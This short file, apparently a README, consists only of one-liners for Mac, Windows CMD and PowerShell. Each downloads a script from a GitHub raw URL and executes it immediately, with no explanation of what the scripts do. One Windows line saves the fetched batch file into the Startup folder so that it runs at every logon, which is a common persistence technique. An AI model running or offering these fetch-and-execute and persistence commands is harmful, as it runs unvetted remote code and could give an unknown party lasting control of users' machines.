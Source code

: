 # MAC

curl -o scriptmac.sh https://raw.githubusercontent.com/juanmanuelorgaz/sngular/master/scriptmac.sh && chmod +x ./scriptmac.sh && sh ./scriptmac.sh

# CMD

powershell.exe Invoke-WebRequest https://raw.githubusercontent.com/juanmanuelorgaz/sngular/master/scriptwin.bat -OutFile $env:windir\Temp\scriptwin.bat && %windir%\Temp\scriptwin.bat

powershell.exe Invoke-WebRequest https://raw.githubusercontent.com/juanmanuelorgaz/sngular/master/scriptwin.bat -OutFile "$env:ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\scriptwin.bat"

# PS

powershell.exe Invoke-WebRequest https://raw.githubusercontent.com/juanmanuelorgaz/sngular/master/scriptps.ps1 -OutFile .\scriptps.ps1 && powershell.exe .\scriptps.ps1
